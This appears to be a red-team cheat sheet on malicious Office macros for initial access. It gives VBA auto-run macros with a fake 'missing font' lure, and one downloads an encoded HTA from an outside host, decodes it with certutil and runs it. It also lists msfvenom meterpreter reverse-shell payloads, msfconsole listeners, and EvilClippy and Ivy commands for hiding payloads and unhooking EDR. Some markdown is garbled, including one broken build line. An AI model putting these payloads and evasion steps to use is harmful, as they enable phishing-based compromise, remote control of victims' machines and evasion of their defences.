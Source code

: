 # MACRO Attack

simple macro 

```
Sub AutoOpen()
    Nooranet
End Sub
Sub Nooranet()
  MsgBox "Download Missing Font Automatic", vbOKOnly, "Missing Font"
  a = Shell("E:\Intial-Access\Macro\screen.cmd", vbHide)
End Sub
```

salaray-1401.xslm

```powershell
```powershell
Sub Auto_Open()
    DownloadAndExec
End Sub
Sub DownloadAndExec()
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "http://nooranetred.com/edr.cert", False
xHttp.Send
With bStrm
.Type = 1 '//binary
.Open
.write xHttp.responseBody
.savetofile "edr.cert", 2 '//overwrite
End With
Shell ("cmd /c certutil -decode edr.cert edr.hta & start edr.hta")
End Sub
```

```
#### payload

```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f hta-psk -o /var/www/html/cert.hta
```

##### 

##### Encode payload

```powershell
$raw = Get-Content -path cert.hta -Encoding Byte
$b64 =[system.Convert]::TOBase64String($raw)
$b64  | Out-File E:\Initial-Access\Macro\edr.cert
```

#### listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

## Evil clippy

##### installation

```
git clone https://github.com/outflanknl/EvilClippy
```

```
EvilClippy.exe -g secret-salary.xlsm
```

```
EvilClippy.exe -u secret-salary.xlsm
```

```
EvilClippy.exe -uu secret-salary.xlsm
```

## IVY

#### Installation

```
hgo build Ivy.gottps://github.com/optiv/Ivy
go get github.com/fatih/color
go get github.com/KyleBanks/XOREncryption/Go
go build Ivy.go
```

#### IVY Payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f vbs -o /var/www/html/shell.vbs
```

#### listener

```
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

### Staged Payload

```
ivy -Ix86 shell.vbs -P Inject -O test.js
```

```
cscript //E:jscript whatsapp.js
```

#### Stageless payload

stageless payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f raw -o /var/www/html/shell.bin
```

```
ivy  stageless -Ix86 shell.bin -P Inject -O test.js
```

#### onliner command

```
ivy  -stageless -Ix86 shell.bin -P Inject -O test.png
```

#### Bypass EDR

```command
ivy -stageless -Ix86 shell.bin -P Inject -unhook -O test.png
```



```

```
